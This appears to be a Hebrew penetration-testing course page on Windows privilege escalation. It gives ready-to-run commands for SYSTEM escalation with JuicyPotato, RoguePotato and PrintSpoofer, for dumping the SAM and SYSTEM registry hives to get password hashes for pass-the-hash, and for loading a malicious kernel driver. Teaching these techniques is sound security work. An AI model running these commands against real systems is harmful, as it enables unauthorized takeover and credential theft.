

repository: AmitPinchasi/amittech · page: בודק-חדירות/3 - תקיפת ווינדוס/3.3 - הסלמת הרשאות בווינדוס 2/3.3 - הסלמת הרשאות בווינדוס 2/index.html · generator: mkdocs


### **הexploit הרשאות מיוחדות ב-Windows**

####  הexploit הרשאת **SeImpersonatePrivilege - עם JuicyPotato, RoguePotato, PrintSpoofer**

הרשאת **SeImpersonatePrivilege** מאפשרת לנו לחטוף טוקנים של משתמשים עם הרשאות גבוהות יותר וליצור process חדש עם הרשאות SYSTEM.

##### **בדיקה האם יש לנו את SeImpersonatePrivilege**

```powershell
whoami /priv | findstr "SeImpersonatePrivilege"
```

אם מופיע `Enabled`, ניתן לנצל זאת עם הכלים **JuicyPotato, RoguePotato, PrintSpoofer**.

#### **הexploit SeImpersonatePrivilege עם JuicyPotato**

הכלי JuicyPotato מנצל שירותי COM של Windows כדי ליצור process חדש עם הרשאות SYSTEM. מתאים בעיקר ל-Windows Server 2016 ומטה.

```powershell
JuicyPotato.exe -p "C:\Windows\System32\cmd.exe" -t * -l 1337
```

זה יפעיל `cmd.exe` עם הרשאות SYSTEM.
#### **הexploit SeImpersonatePrivilege עם RoguePotato**

מערכת Windows Server 2019 חסם את המנגנון של JuicyPotato, אך RoguePotato עקף את החסימה באמצעות יצירת שרת COM מרוחק.

```powershell
RoguePotato.exe -r 192.168.1.100 -e "C:\Windows\System32\cmd.exe"
```

_יש צורך בגישה לרשת כדי להפעיל את השרת המרוחק._

#### **הexploit SeImpersonatePrivilege עם PrintSpoofer**

והכלי האולטימטיבי: PrintSpoofer מנצל חולשה בשירות Print Spooler ומאפשר הרצת קוד כ-SYSTEM גם ב-Windows 10 ו-Server 2019.

```powershell
PrintSpoofer.exe -i -c cmd.exe
```

אם ההרצה מצליחה, ייפתח חלון `cmd.exe` עם SYSTEM.

### הexploit הרשאת **SeBackupPrivilege ו-SeRestorePrivilege - גישה לקבצי מערכת**

אם יש לנו את ההרשאות הללו, ניתן לגשת לקבצי מערכת רגישים כמו `SAM`, המכיל האשים של סיסמאות.

#### **בדיקת הרשאות SeBackupPrivilege**

```powershell
whoami /priv | findstr "SeBackupPrivilege"
```

#### **שימוש ב-SeBackupPrivilege לשליפת ה-SAM**

```powershell
reg save hklm\sam C:\sam.save
reg save hklm\system C:\system.save
```

נוכל לפענח את ההאשים מתוך הקובץ `SAM` ולבצע **Pass-the-Hash** כדי להתחבר כ-Administrator.

### הexploit הרשאת **SeLoadDriverPrivilege - טעינת דרייבר זדוני (BYOVD)**

אם יש לנו הרשאת `SeLoadDriverPrivilege`, ניתן לטעון דרייבר פגיע או זדוני כדי לקבל הרשאות SYSTEM או אפילו גישה ל-Ring 0 בקרנל.

#### **בדיקה אם יש לנו SeLoadDriverPrivilege**

```powershell
whoami /priv | findstr "SeLoadDriverPrivilege"
```

#### **הexploit הרשאה לטעינת דרייבר זדוני**

```powershell
sc create evilservice binpath= "C:\malicious.sys" type= kernel
sc start evilservice
```

זה יפעיל קוד ברמת הקרנל.

#### **BYOVD - exploit דרייברים פגיעים**

במתקפות **Bring Your Own Vulnerable Driver (BYOVD)**, תוקפים מתקינים דרייבר חתום על ידי מיקרוסופט, אך פגיע לחולשת 1day ומשתמשים בו להסלמת הרשאות.
